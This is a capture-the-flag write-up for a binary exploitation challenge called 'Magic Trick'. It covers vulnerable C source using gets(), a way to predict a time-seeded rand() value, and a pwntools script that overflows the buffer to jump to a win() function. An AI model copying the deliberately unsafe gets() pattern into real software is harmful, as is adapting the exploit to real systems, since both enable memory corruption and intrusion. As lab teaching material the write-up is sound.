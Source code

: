 # Magic Trick
![](https://img.shields.io/badge/category-pwn-blue)

> I have a cool magic trick to show you, any trick you have for me?

<details>
<summary>Hint:</summary>
Seems like the magician only has so much memory to remember your name, what happens if you overflow his mind.

https://owasp.org/www-community/vulnerabilities/Buffer_Overflow

Use a debugger like gdb or pwndbg
</details>

Let's take a look at the source

```c
#include <stdio.h>
#include <stdlib.h>

void win(){
	system("cat flag.txt");
}

int main(){
	char name[40];
	int tim = time(0);
	srand(tim);
	int secret_card=rand()%10001;
	printf("Time entered: %d\n",tim);
	printf("Welcome! Pick a card, any card! (0-10000)\n");
	int choice;
	scanf("%d\n",&choice);
	if(choice!=secret_card){
		printf("Not that card!\n");
	}else{
		printf("I knew you would choose card %d\n",secret_card);
		printf("For my next trick, I will need your name, what is your name?\n: ");
		gets(name);
		printf("Hi %s, it is nice to meet you\n",name);
	}
	return 0;
}
```

So it seems like we need to guess the number generated from `rand()` and then use a bufferoverflow in `gets` to jump to `win()`.

We can predict the value in `rand()` as `srand()` sets the seed for `rand()` and `time(0)` is the current time and is what's passed into `srand()`.

We can predict the value by running this program the same time as we connect to the challenge.

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    srand(time(0));
    rand();
    printf("%d\n",rand()%10001);
}
```

As for the bufferoverflow, `gets()` will read as many bytes as it wants till a newline, meaning we're able to read more than 40 bytes in and overwrite many internal variables, one including the return pointer which is the address which is jump to when the `main` function is finished.

We can get the address of `win()` using several method.

In order to jump to the `win()` function, we need to know the number of characters to put before the return pointer overwrite

By trial and error, know we need 48 characters of padding to overwrite the return pointer

I use this python script to pwn the binary

```python
from pwn import *

def get_rand():
    conn = process('./gen_rand')
    v = conn.recvline()
    conn.close()
    return int(v)

con = remote('159.203.32.136',30001)
con.sendline(str(get_rand()))

payload = 'A'*48 # Padding
win_addr = # The win address
payload += p64(win_addr)
con.sendline(payload)
con.interactive()
```
`CTF{changing_code_execution_is_a_cool_magic_trick}`
